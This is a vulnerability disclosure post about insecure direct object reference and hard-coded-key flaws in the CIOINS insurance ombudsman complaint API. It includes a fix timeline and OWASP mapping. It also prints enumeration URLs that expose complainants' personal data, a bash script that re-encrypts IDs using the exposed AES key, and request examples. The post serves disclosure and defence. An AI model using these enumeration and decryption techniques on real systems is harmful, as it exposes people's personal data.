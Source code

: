 ```yaml
---
title: Council of Insurance Ombudsman CIOINS API Vulnerabilities 2024
date:
  created: 2025-08-13
  updated: 2025-08-13
---
```


Council of Insurance Ombudsman CIOINS website (<https://cioins.co.in>) had numerouos vulnerabilities covering several OWASP TOP 10 categories in 2024. After reporting (they don't have a direct email for this (they denied this information in the [RTI](../../rti/posts/cioins.md))), they simply masked the issue with bogus encryption with key exposed in the front-end source code.

After a followup, a proper fix was implemented but with significant delay.

Summary of the vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [FetchComplaintDetails](#1-fetchcomplaintdetails)  | 16 November 2024 | 9 December 2024 | 21 | 07586124 |
| 2  | [RetrieveData](#2-retrievedata)  | 16 November 2024 | 9 December 2024 | 21 | 07586124 |
| 3  | [FetchComplaints](#3-fetchcomplaints)  | 16 November 2024 | 9 December 2024 | 21 | 07586124 |
| 4  | [encrypted FetchComplaintDetails](#4-fetchcomplaintdetails-encrypted-payload)  | 9 December 2024 | 20 January 2025 | 41 (63 from original) | 07586124 |
| 5  | [encrypted RetrieveData](#5-retrievedata-encrypted-payload)  | 9 December 2024 | 20 January 2025 | 41 (63 from original) | 07586124 |
| 6  | [encrypted FetchComplaints](#6-fetchcomplaints-encrypted-payload)  | 9 December 2024 | 20 January 2025 | 41 (63 from original) | 07586124 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A02 2021 Cryptographic Failures: CWE-321 Use of Hard-coded Cryptographic Key
- A04 2021 Insecure Design: CWE-73 External Control of File Name or Path, Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

### 1. FetchComplaintDetails

This API endpoint was vulnerable to IDOR (Insecure Direct Object Reference). By accepting a serially increasing complaint ID, this API provided complainant's name, mobile, complaint text, and policy number.

No sophisticated knowledge of curl tools needed. Simply opening this in the browser was sufficient.

```text
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74100&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74101&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74102&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74103&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=74104&mode=ON
```

### 2. RetrieveData

By using the mobile number obtained in the above vulnerability, this API endpoint could be used to retrieve the complainant's details including name, email, address, and date of birth.

```text
https://cioins.co.in/Complaint/Online/RetrieveData?mobileNumber=$$$$$$$$$$
```

### 3. FetchComplaints

This API provided a list of complaints associated with a mobile number. It returned details such as complaint ID, status, and date of filing.

```text
https://cioins.co.in/Complaint/Track/FetchComplaints?mobile=$$$$$$$$$$
```

### $$ Bogus encryption

As per the timelines in the table above, payload was merely AES encrypted and decrypted using a key and initialization vector exposed in the front-end code. The script to do it locally is as following.

```bash title="encr_decr.sh" linenums="1"
#!/bin/bash
KEY=38303830383038303830383038303830
IV=38303830383038303830383038303830
# KEY=8080808080808080
# IV=8080808080808080
decrypt() {
    echo $(echo -n "$1" | openssl enc -aes-128-cbc -base64 -d -K "$KEY" -iv "$IV" -nosalt)
}

encrypt() {
    echo $(echo -n "$1" | openssl enc -e -aes-128-cbc -base64 -K "$KEY" -iv "$IV" -nosalt)
}

for i in "74101" "74102" ; do
    echo $i
    encrypt $i
    # URL encoding
    encrypt $i | jq -sRr @uri
done
```

??? note "Online encryption using emn178.github.io"
    <https://emn178.github.io/online-tools/aes/encrypt/>

    ![online](contents_cioins/encryption.jpg)

### 4. FetchComplaintDetails Encrypted Payload

The parameters are the same as in [FetchComplaintDetails](#1-fetchcomplaintdetails) but encrypted as shown in the script above.

```text
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=evmr74Rz6KPWPjrGop6JVQ%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=tdTRukPbD1ADr581eavRWg%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=54fjn5aez4hZzUb5CdphRg%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=TOOqRpQioUbzVJK579jyNA%3D%3D&mode=ON
https://cioins.co.in/Complaint/Track/FetchComplaintDetails?CompID=uRDIXscht1j4HcfI8vX6Sg%3D%3D&mode=ON
```

### 5. RetrieveData Encrypted Payload

The parameters are the same as in [RetrieveData](#2-retrievedata) but encrypted as shown in the script above.

```text
https://cioins.co.in/Complaint/Online/RetrieveData?mobileNumber=c1FQnlPmmmtf4mEnALGVyQ%3D%3D
```

### 6. FetchComplaints Encrypted Payload

The parameters are the same as in [FetchComplaints](#3-fetchcomplaints) but encrypted as shown in the script above.

```text
https://cioins.co.in/Complaint/Track/FetchComplaints?c1FQnlPmmmtf4mEnALGVyQ%3D%3D
```

### $$ Fix using OTP

After fixing, an OTP verification for every step of the process was added, i.e., an OTP is required for accessing each complaint.

```bash title="fix.sh" linenums="1"
time=$(date '+%F_%T')
curl 'https://cioins.co.in/Complaint/Track/FetchComplaintDetails' -X POST \
-H 'Cookie: .AspNetCore.Session=$$$$$$$$$$' \
--data-raw 'CompID=c1FQnlPmmmtf4mEnALGVyQ%3D%3D&mode=ON&inputOTP=GMvdPTixRnzYwJ%2BW%2BMy4iw%3D%3D' \
-o "complaint_$time.json" \
```
